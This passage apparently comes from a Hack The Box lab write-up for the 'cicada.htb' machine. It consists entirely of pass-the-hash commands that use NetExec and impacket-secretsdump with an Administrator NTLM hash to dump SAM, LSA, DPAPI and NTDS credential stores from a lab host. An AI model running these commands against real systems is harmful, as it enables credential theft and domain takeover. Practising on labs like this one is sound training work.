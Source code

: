 

`nxc smb 10.129.169.79 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341:2b87e7c93a3e8a0ea4a581937016f341 --sam`

`nxc smb 10.129.169.79 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341:2b87e7c93a3e8a0ea4a581937016f341 --lsa`

`nxc smb 10.129.169.79 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341:2b87e7c93a3e8a0ea4a581937016f341 --dpapi`


`impacket-secretsdump 'cicada.htb/Administrator'@10.129.169.79 -hashes :2b87e7c93a3e8a0ea4a581937016f341 -just-dc -use-vss`


### Domain controllers only

`nxc smb 10.129.169.79 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341:2b87e7c93a3e8a0ea4a581937016f341 --ntds`

`nxc smb 10.129.169.79 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341:2b87e7c93a3e8a0ea4a581937016f341 --ntds vss`
